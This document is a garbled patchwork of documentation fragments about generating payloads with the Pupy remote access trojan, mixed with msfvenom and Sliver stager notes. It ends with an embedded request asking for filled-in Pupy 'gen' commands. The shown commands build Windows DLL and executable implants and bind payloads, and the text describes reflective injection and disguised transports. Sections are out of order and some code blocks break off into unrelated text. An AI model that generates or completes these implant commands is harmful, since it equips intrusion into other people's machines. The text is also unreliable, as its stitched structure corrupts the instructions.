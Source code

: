 To generate working payloads, you should have a complete comprehension of how things work. `transports`, `launchers`, `listeners` and `payloads` terms have to be understood before starting.  

## Transport
#[Pupy0](https://github.com/vecnathewhisperd/pupy0/wiki)
# High level overview

Three major components are required to use Pupy:
1. Management software (server side)
     - `pupysh`
2. Agent software (client side)
     - `pupy/payload_templates/*pupy*.*`
3. Python libraries for various OS/CPU combinations
     - `pupy/payload_templates/*OS*-*CPU*.zip`
## Payloads Generation

**Oneliners**: For one shot usage use `gen` command inside `pupysh`. Once you get the session back, kill the server using `CTRL-C`. If you want to let the server running non stop, use `pupygen.py` using exactly the same syntax as explained below.  

Payloads generation are done using the `gen` command.

## Payloads format

Payloads format represent the way to build our payload. Some are implemented and you should use one depending on the context and system you are targeting:
## Description

Pupy is a cross-platform, multi function RAT and post-exploitation tool mainly written in python. It features an all-in-memory execution guideline and leaves a very low footprint. Pupy can communicate using multiple transports, migrate into processes using reflective injection, and load remote python code, python packages and python C-extensions from memory.

## Features
```
>> gen -f <format> <launcher> -t <transport>
```
Here are some examples: 

- Windows dll
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport
```

- Windows executable
```
>> gen -f client -O windows -A x64 connect --host ip:port -t transport
```

- Python file - Bind
```
>> gen -f py bind --port port -t transport
```

- Python oneliner
```

# How to generate a payload

To generate a payload, there are two flags that you must supply (-p and -f):

* **The -p flag: Specifies what payload to generate**

To see what payloads are available from Framework, you can do:

```
./msfvenom -l payloads
```

The -p flag also supports "-" as a way to accept a custom payload:
## Transport

All transports in pupy are stackable. This mean that by creating a custom
transport conf (pupy/network/transport/<transport_name>/conf.py), you can make
you pupy session looks like anything. For example you could stack HTTP over
HTTP over base64 over HTTP over AES over obfs3 :o)
For this to work, we need the following pieces:

- a staging server (the Sliver server)
- a stage 2 payload (usually a Sliver shellcode, but can be in other formats)
- stagers (generated by `msfvenom`, the Sliver `generate stager` command, or a custom one)

## Example
```
Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload

Domanda: Generate some examples like this about payload generation with Pupy: '>> gen -f <format> <launcher> -t <transport>'. Please replace the placeholders with appropriate values.
```
